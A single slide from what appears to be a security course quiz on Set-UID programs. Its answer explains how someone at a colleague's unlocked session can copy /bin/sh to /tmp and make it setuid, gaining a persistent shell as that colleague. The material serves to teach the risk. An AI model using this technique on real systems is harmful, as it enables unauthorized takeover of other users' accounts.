

# Set-UID Quiz
Q: Bob and you both have accounts on the same UNIX system. Bob has gone away for lunch and has forgot to lock his computer screen. Can you take over his account completely in the future, by starting a shell from your own login shell, but with user ID Bob?
A: Yes. Run these commands in Bob’s shell to turn mysh into a Set-UID program:
$cp /bin/sh /tmp/mysh
$chmod 4755 /tmp/mysh
Later, from your own login shell, run
$/tmp/mysh
mysh has RUID as my user ID, and EUID as Bob’s user ID, so it runs with privileges of Bob.